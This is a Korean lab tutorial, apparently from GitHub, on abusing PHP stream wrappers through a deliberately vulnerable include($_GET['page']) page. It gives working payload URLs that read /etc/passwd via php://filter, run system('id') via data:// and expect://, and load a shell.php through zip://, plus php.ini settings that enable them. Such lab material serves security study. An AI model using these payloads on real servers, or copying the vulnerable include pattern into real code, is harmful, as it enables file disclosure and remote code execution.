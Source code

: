 # PHP wrapper

| wrapper   | description   |
| :---      | :---:         |
| php://    | 다양항 I/O 스트림 래퍼 |
| zlib://   | 압축 스트림 래퍼 |
| expect:// | PTY를 통해 프로세스의 stdio, stdout, stderr에 대한 액세스 제공 |

https://www.php.net/manual/en/wrappers.expect.php
https://www.php.net/manual/en/wrappers.php

# **INDEX**

**1. [php://](#php%2F%2F)**

# **환경 구성**

실행 환경

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| php           | 7.4                       |
| apache2       | 2.4.41-4ubuntu3.10        |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```

# **php//**

http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
```
```ini
allow_url_include = On
```

http://192.168.0.58/index.php?page=data://text/plain,<?php system('id');?>
http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==


```sh
root@ubuntu:~# apt -y install php-dev php-pear tcl tcl-tclreadline tcl-dev tcl-expect-dev expect expect-dev tk tk-dev
root@ubuntu:~# pecl install expect
```

```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
root@ubuntu:~# vi /etc/php/7.4/cli/php.ini
```
```ini
extension=expect.so
```

http://192.168.0.58/index.php?page=expect://id

```sh
root@ubuntu:~# apt -y install php-zip
```

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 가지고 있어야함

http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php
